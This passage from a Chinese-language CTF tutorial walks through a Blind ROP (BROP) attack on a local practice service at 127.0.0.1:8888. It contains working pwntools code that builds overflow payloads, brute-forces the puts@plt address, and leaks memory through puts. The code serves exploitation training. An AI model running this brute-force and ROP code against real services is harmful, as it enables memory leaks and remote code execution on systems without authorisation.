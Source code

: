 ![image-20240406211300588](${images}/image-20240406211300588.png)

success brop gadget: 0x4007ba



#### 确定puts@plt地址

构造的payload如下：

```
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具体函数如下

```python
def get_puts_plt(length, rdi_ret, stop_gadget):
    addr = 0x400570
    while True:
        sleep(0.1)
        print(hex(addr))
        payload = b'A' * length + p64(rdi_ret) + p64(0x400000) +  p64(addr) + p64(stop_gadget)
        try:
            sh = remote('127.0.0.1', 8888)
            sh.recvuntil(b'WelCome my friend,Do you know password?\n')
            sh.sendline(payload)
            content = sh.recvline()
            print(content)
            if b'\x7fELF' in content:
                log.success('找到puts@plt addr:'+str(hex(addr)))
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1

get_puts_plt(offset,rdi_ret,stop_gadget)
```

![image-20240408223928193](${images}/image-20240408223928193.png)

![image-20240408223935965](${images}/image-20240408223935965.png)



#### 泄露puts@got地址

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 8888)
    payload = b'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil(b'password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == b"":
            data = b'\x00'
        return data
    except Exception:
        sh.close()
```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"